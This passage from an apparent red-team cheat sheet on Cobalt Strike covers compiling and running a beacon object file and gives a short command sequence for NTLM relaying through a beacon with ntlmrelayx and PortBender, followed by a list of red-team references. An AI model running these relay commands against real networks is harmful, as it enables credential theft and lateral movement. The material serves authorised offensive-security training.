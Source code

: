     # To compile this with x86 MinGW:
    i686-w64-mingw32-gcc -c hello.c -o hello.o

    # To compile this with x64 MinGW:
    x86_64-w64-mingw32-gcc -c hello.c -o hello.o
    ```
* Execute: `inline-execute /path/to/hello.o`

## NTLM Relaying via Cobalt Strike

```powershell
beacon> socks 1080
kali> proxychains python3 /usr/local/bin/ntlmrelayx.py -t smb://<IP_TARGET>
beacon> rportfwd_local 8445 <IP_KALI> 445
beacon> upload C:\Tools\PortBender\WinDivert64.sys
beacon> PortBender redirect 445 8445
```

## References

* [Red Team Ops with Cobalt Strike (1 of 9): Operations](https://www.youtube.com/watch?v=q7VQeK533zI)
* [Red Team Ops with Cobalt Strike (2 of 9): Infrastructure](https://www.youtube.com/watch?v=5gwEMocFkc0)
* [Red Team Ops with Cobalt Strike (3 of 9): C2](https://www.youtube.com/watch?v=Z8n9bIPAIao)
* [Red Team Ops with Cobalt Strike (4 of 9): Weaponization](https://www.youtube.com/watch?v=H0_CKdwbMRk)
* [Red Team Ops with Cobalt Strike (5 of 9): Initial Access](https://www.youtube.com/watch?v=bYt85zm4YT8)
* [Red Team Ops with Cobalt Strike (6 of 9): Post Exploitation](https://www.youtube.com/watch?v=Pb6yvcB2aYw)
* [Red Team Ops with Cobalt Strike (7 of 9): Privilege Escalation](https://www.youtube.com/watch?v=lzwwVwmG0io)
* [Red Team Ops with Cobalt Strike (8 of 9): Lateral Movement](https://www.youtube.com/watch?v=QF_6zFLmLn0)
* [Red Team Ops with Cobalt Strike (9 of 9): Pivoting](https://www.youtube.com/watch?v=sP1HgUu7duU&list=PL9HO6M_MU2nfQ4kHSCzAQMqxQxH47d1no&index=10&t=0s)
* [A Deep Dive into Cobalt Strike Malleable C2 - Joe Vest - Sep 5, 2018 ](https://posts.specterops.io/a-deep-dive-into-cobalt-strike-malleable-c2-6660e33b0e0b)
* [Cobalt Strike. Walkthrough for Red Teamers - Neil Lines - 15 Apr 2019](https://www.pentestpartners.com/security-blog/cobalt-strike-walkthrough-for-red-teamers/)
* [TALES OF A RED TEAMER: HOW TO SETUP A C2 INFRASTRUCTURE FOR COBALT STRIKE – UB 2018 - NOV 25 2018](https://holdmybeersecurity.com/2018/11/25/tales-of-a-red-teamer-how-to-setup-a-c2-infrastructure-for-cobalt-strike-ub-2018/)
* [Cobalt Strike - DNS Beacon](https://www.cobaltstrike.com/help-dns-beacon)
* [How to Write Malleable C2 Profiles for Cobalt Strike - January 24, 2017](https://bluescreenofjeff.com/2017-01-24-how-to-write-malleable-c2-profiles-for-cobalt-strike/)
* [NTLM Relaying via Cobalt Strike - July 29, 2021 - Rasta Mouse](https://rastamouse.me/ntlm-relaying-via-cobalt-strike/)
* [Cobalt Strike - User Guide](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/welcome_main.htm)
* [Cobalt Strike 4.6 - User Guide PDF](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/cobalt-4-6-user-guide.pdf)
